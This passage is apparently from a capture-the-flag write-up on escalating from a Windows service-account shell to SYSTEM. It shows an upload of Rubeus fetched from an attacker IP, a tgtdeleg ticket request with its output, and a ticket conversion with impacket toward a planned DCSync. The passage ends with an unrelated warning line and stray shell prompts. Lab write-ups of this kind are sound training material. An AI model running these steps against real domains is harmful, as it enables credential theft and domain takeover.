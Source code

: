 Since we have a shell as service account. we can get system directly with two ways

#### First Way

The Service accounts are vulnerable to TGT delegation attacks using Rubeus because the service account is often configured with high privileges on the local system, such as the ability to create and modify user accounts and other system resources.

The idea is to get valid TGT (Ticket-Granting Ticket) for the service account, to perform a DCSync attack and then PSExec into the machine as administrador.

First i’ll upload Rubeus to the remove machine

```
PS C:\Windows\System32\spool\drivers\color> wget 10.10.14.57/Rubeus.exe -o r.exe
```

Then i’ll use it to generate a TGT for the service account

```
PS C:\Windows\System32\spool\drivers\color> .\r.exe tgtdeleg /nowrap
.\r.exe tgtdeleg /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build ’cifs/dc.domain.com’
[*] Initializing Kerberos GSS-API w/ fake delegation for target ’cifs/LOOKOUT-DC.LOOKOUT.local’
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: CYLfo1W5+vf4ZTDXhdsbhxx6n45eG6ONzEKGryITLUg=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIF3jCCBdqgA<SNIIIIIIIIIP>AWoAMCAQGFM
```

I’ll save to my local machine and convert the ticket with `TicketConverter` from `impacket`

```
hcue@pjsk:/tmp/wr » cat ticket| base64 -d > ticket.kirbi
hcue@pjsk:/tmp/wr » impacket-ticketConverter ticket.kirbi ticket.ccache                                        2 ↵
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] converting kirbi to ccache...
[+] done
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname